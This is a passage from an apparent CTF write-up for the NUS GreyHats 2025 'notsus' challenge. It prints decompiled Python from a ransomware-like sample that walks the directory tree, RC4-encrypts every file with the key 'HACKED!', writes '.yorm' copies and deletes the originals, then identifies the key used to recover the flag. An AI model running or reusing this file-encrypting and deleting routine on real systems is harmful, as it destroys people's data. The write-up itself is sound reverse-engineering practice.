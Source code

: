 ```
    b = []
    for c, d, e in os.walk(a):
        for f in e:
            b.append(os.path.join(c, f))
    return b
d = b'HACKED!'
e = os.path.basename(sys.executable)
for f in c('.'):
    if e in f:
        continue
    with open(f, 'rb') as g:
        asdf = g.read()
    with open(f'{f}.yorm', 'wb') as g:
        g.write(b(d, asdf))
    os.remove(f)
```
The function `b(a, c)` is a direct implementation of the RC4 encryption algorithm (Go ask ChatGPT if you don't believe me), and is uses the plaintext key `HACKED!`. With this, we visit CyberChef like before, aaaaaannnddd:
![](https://raw.githubusercontent.com/CyberSpokes/writeups/refs/heads/main/NUS%20GreyHats%20CTF%20Quals%202025/notsus/images/flag.png)

***I made it way harder than it had to be, didn't I?***
